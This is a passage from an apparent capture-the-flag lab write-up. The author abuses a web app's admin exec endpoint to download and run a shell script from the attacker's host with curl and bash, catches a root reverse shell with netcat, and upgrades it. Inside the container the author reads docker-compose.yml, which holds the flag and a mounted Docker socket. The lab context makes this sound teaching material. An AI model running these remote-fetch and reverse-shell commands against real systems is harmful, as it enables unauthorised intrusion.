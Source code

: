 Making the server download and save it with the `curl 10.11.72.22/shell.sh -o /tmp/shell.sh` command. (`http://10.10.99.229:8080/api/admin/exec?cmd=curl+10.11.72.22/shell.sh+-o+/tmp/shell.sh`)

Now, running it with the `bash /tmp/shell.sh` command (`http://10.10.99.229:8080/api/admin/exec?cmd=bash+/tmp/shell.sh`), we get a shell as the `root` user inside a container.

```console
$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.11.72.22] from (UNKNOWN) [10.10.99.229] 57770
# python3 -c 'import pty;pty.spawn("/bin/bash");'
python3 -c 'import pty;pty.spawn("/bin/bash");'
root@02e849f307cc:/# export TERM=xterm
export TERM=xterm
root@02e849f307cc:/# ^Z
zsh: suspended  nc -lvnp 443

$ stty raw -echo; fg
[1]  + continued  nc -lvnp 443

root@02e849f307cc:/# 
```

## Shell as root

### Escaping the Container

Checking the `/app` directory inside the container, we find the source code for the web application along with the Docker configuration used to spin up the container.

```console
root@02e849f307cc:/# ls -la /app
total 14672
drwxr-xr-x 1 root root     4096 May  8 12:25 .
drwxr-xr-x 1 root root     4096 May  8 12:25 ..
drwxr-xr-x 8 root root     4096 May  8 12:20 .git
-rw-r--r-- 1 root root      435 May  8 12:20 .gitignore
-rw-r--r-- 1 root root      381 May  8 12:20 Dockerfile
-rw-r--r-- 1 root root       58 May  8 12:20 README.md
-rw-r--r-- 1 root root      809 May  8 12:20 build.gradle.kts
-rw-r--r-- 1 root root      602 May  8 12:20 docker-compose.yml
drwxr-xr-x 3 root root     4096 May  8 12:20 gradle
-rw-r--r-- 1 root root       92 May  8 12:20 gradle.properties
-rwxr-xr-x 1 root root     8070 May  8 12:20 gradlew
-rw-r--r-- 1 root root     2674 May  8 12:20 gradlew.bat
-rw-r--r-- 1 root root 14959809 May  8 12:24 ktor-docker-sample.jar
-rw-r--r-- 1 root root       30 May  8 12:20 settings.gradle.kts
drwxr-xr-x 4 root root     4096 May  8 12:20 src
```

Reading the `/app/docker-compose.yml` file, we find the second flag among environment variables.

```console
root@02e849f307cc:/app# cat docker-compose.yml
version: "3"
services:
  web:
    build: .
    ports:
      - "8080:8080"
    volumes:
      - /var/run/docker.sock:/var/run/docker.sock
    restart: always
    environment:
...
      - CTF_DOCKER_FLAG=THM{[REDACTED]}
```